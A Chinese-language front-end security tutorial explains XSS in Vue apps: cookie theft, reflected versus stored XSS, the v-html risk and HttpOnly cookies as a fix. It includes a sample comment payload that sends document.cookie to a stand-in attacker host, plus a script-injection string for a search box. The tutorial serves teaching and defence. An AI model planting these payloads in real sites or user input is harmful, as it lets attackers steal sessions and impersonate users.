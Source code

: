 假如我们弄丢了cookie 被别人拿到 那么这个人就可以导入我们的cookie伪装成我们免密登录目标网站

<br>

### **作案场景:**
比如 百度贴吧 我们用户可以发送留言 发送的留言都会保存在数据库中 然后程序员拿到数据后通过遍历 动态的渲染到页面结构里

假如 有坏人 以下面的方式 留言
```html
<a href=javascript:location.href="http://www.huairen.com?document.cookie">有妞</a>
```

该段代码意思是 带着当前正在浏览上的所有cookie访问坏人的服务器并将cookie传递给坏人的服务器

假如我们程序员 整好 使用v-html来根据留言数据 渲染页面就会造成 这段代码被解析成一个标签 如果有人点击后 后果不堪设想

<br>

### **XSS的类型:**
- 反射型:

      一般需要攻击者事先制作好攻击链接 然后诱骗用户自己点击链接才会触发xss代码
      服务器中并没有这样的页面和内容 一般都存在于搜索页面中 特点是非持久性

- 存储型:

      代码是存储在服务器数据库中的 如在个人信息或发表评论的地方 如果对于用户输入的内容没有过滤或过滤不严格 那么这些代码将存储到服务器中每当有用户访问该页面的时候都会触发代码执行 这种xss非常的费县 容易造成蠕虫 大量盗窃cookie 

      虽然还有DOM型XSS 但是也还是包括在存储型里面 特点是持久性

<br>

### **XSS示例1:**

反射型:
```html
<input type="text" :v-model="msg"> 搜索

<h3>{{msg}}</h3>
```

我们在输入框内 填写如下代码 格式为:

    </h3> <script>alert(1)</script> <h3>

相当于我们往代码里面又插入了一段代码

<br>

### **解决方案**
当然cookie也有验证 需要在后端设置 给敏感数据 比如cookie设置 HttpOnly 这样只有浏览器才能读取cookie并携带cookie其它人都不可以

document.cookie也不能读取cookie 为空

<br>

前端人员除了传统的 XSS、CSRF 等安全问题之外 又时常遭遇网络劫持、非法调用 Hybrid API 等新型安全问题。
